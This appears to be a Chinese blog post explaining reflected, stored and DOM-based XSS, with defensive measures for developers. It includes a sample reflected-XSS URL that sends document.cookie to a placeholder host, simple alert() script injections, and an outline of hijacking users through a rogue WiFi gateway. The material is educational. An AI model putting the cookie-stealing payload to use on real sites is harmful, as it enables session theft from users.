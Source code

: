 ```yaml
---
title: 对于简单的 XSS 攻击的概念梳理
tags: security
date: 2019-09-06
---
```


### 背景
前阵子想了解一些关于XSS攻击的知识，于是在网上翻阅了一些有关XSS的概念，于是我总结了下来，今天清理电脑的时候发现这篇文章，故提交之。

# XSS - Cross-site scripting
1. Reflected XSS（基于反射的XSS攻击）
2. Stored XSS（基于存储的XSS攻击）
3. DOM-based or local XSS（基于DOM或本地的XSS攻击）

## Reflected XSS
主要依靠站点服务端返回脚本，在客户端触发执行从而发起Web攻击

例子：
1. 在搜索框搜索内容或者URL直接写入脚本，`<script>alert('handsome boy')</script>`, 点击搜索或者回车。
2. 当前端页面没有对返回的数据进行过滤，直接显示在页面上， 这时就会alert那个字符串出来。
3. 进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：

```markdown
http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie='+document.cookie</script>
PS：这个地址当然是没效的，只是举例子而已。
```

结论：
如果第3步能做成功，才是个像样的XSS攻击。

开发安全措施：
1. 前端在显示服务端数据时候，不仅是标签内容需要过滤、转义，就连属性值也都可能需要。
2. 后端接收请求时，验证请求是否为攻击请求，攻击则屏蔽


## Stored XSS
基于存储的XSS攻击，是通过发表带有恶意跨域脚本的帖子/文章，从而把恶意脚本存储在服务器，每个访问该帖子/文章的人就会触发执行

例子：
1. 发一篇文章，里面包含了恶意脚本

```markdown
今天天气不错啊！
<script>alert('handsome boy')</script>
```

2. 后端没有对文章进行过滤，直接保存文章内容到数据库。
3. 当其他看这篇文章的时候，包含的恶意脚本就会执行。

因为大部分文章是保存整个HTML内容的，前端显示时候也不做过滤，就极可能出现这种情况。

结论：
后端尽可能对提交数据做过滤，在场景需求而不过滤的情况下，前端就需要做些处理了。

开发安全措施：
1. 首要是服务端要进行过滤，因为前端的校验可以被绕过。
2. 当服务端不校验时候，前端要以各种方式过滤里面可能的恶意脚本，例如script标签，将特殊字符转换成HTML编码。

## DOM-based or local XSS
基于DOM或本地的XSS攻击。
一般是提供一个免费的wifi，但是提供免费wifi的网关会往你访问的任何页面插入一段脚本或者是直接返回一个钓鱼页面，从而植入恶意脚本。这种直接存在于页面，无须经过服务器返回就是基于本地的XSS攻击。

例子：
1. 提供一个免费的wifi。
1. 开启一个特殊的DNS服务，将所有域名都解析到我们的电脑上，并把Wifi的DHCP-DNS设置为我们的电脑IP。
2. 之后连上wifi的用户打开任何网站，请求都将被我们截取到。我们根据http头中的host字段来转发到真正服务器上。
3. 收到服务器返回的数据之后，我们就可以实现网页脚本的注入，并返回给用户。
4. 当注入的脚本被执行，用户的浏览器将依次预加载各大网站的常用脚本库。

这个其实就是wifi流量劫持，中间人可以看到用户的每一个请求，可以在页面嵌入恶意代码，使用恶意代码获取用户的信息，可以返回钓鱼页面。

https://www.cnblogs.com/index-html/p/wifi_hijack_3.html
